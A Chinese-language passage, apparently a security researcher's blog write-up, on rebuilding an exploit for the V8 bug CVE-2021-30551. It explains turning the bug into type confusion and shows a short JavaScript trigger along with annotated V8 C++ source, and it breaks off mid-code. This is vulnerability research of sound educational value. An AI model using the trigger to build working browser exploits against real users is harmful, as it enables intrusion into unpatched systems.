 ## 实现利用

距离我实现 CVE-2021-30551 的利用已经过去一段时间了，一些很重要的细节我都已经忘记了，这次就重新实现下漏洞的利用过程，加深印象。

### 类型混淆

利用这个漏洞要先将漏洞转换成类型混淆，按照 CVE-2021-30551 的利用思路，通过触发两次漏洞，创建出两个有微妙区别的对象，然后再配合上 JIT 编译生成的代码，就可以把这个漏洞转换成类型混淆。

先触发一次漏洞得到一个具有两个 prop 属性的对象 s1，代码如下：

```javascript
s1 = document.createElement('p').style;
v1 = { toString: () => {s1.prop = 1} };
s1.prop = v1;
```

之后再一次触发漏洞, 创建一个新对象 s2，不过这次漏洞触发的时候，我们希望能在设置第二个 prop 属性时，在控制流走到 LookupIterator::ApplyTransitionToDataProperty 函数时 `simple_transition` 条件为 `false`，这样控制流会走到 `ReloadPropertyInformation` 函数中，重新在 从对象中搜索 prop 属性的位置存储到 state_ 中，搜索算法是从属性描述符的数组的开头线性搜索，这样搜到的结果就是第一个 prop 属性的描述符，而不是刚刚添加的第二个 prop。

```cpp
/// 添加属性的关键函数
Maybe<bool> Object::AddDataProperty(LookupIterator* it, Handle<Object> value,
                                    PropertyAttributes attributes,
                                    Maybe<ShouldThrow> should_throw,
                                    StoreOrigin store_origin) {
  ...

  if (it->IsElement(*receiver)) {
    ...
  } else {
	/// <<< 这里开始是添加属性的关键点
    it->UpdateProtector();
    // Migrate to the most up-to-date map that will be able to store |value|
    // under it->name() with |attributes|.
    /// <<< 这里先准备一个存储了新属性描述符的新 map
    it->PrepareTransitionToDataProperty(receiver, value, attributes,
                                        store_origin);
    DCHECK_EQ(LookupIterator::TRANSITION, it->state());
    /// <<< 将新的 map 应用到 receiver 对象
    it->ApplyTransitionToDataProperty(receiver);

    // Write the property value.
    /// <<< 将属性值写入 receiver 对象
    it->WriteDataValue(value, true);
	...
  }

  return Just(true);
}

void LookupIterator::ApplyTransitionToDataProperty(
    Handle<JSReceiver> receiver) {
  ...
  Handle<Map> transition = transition_map();
  bool simple_transition = // <<<<< 关键点1
      transition->GetBackPointer(isolate_) == receiver->map(isolate_);

  ...

  if (simple_transition) {
    number_ = transition->LastAdded();
    property_details_ = transition->GetLastDescriptorDetails(isolate_);
    state_ = DATA;
```